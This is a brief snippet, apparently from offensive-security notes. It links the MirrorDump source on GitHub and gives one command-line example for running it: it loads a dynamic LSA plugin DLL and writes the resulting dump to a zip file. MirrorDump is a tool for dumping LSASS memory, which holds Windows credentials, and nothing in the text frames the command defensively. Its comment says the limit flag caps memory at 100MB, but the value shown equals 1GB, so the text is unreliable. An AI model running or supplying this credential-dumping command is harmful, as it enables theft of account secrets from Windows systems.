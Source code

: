 ### Source
https://github.com/CCob/MirrorDump  

### Compile and load dynamic LSA plugin, called <name>.dll, -l = limit memory usage to 100MB 
```
MirrorDump.exe -f "<outfile>.zip" -d "<name>.dll" -l 1073741824
```

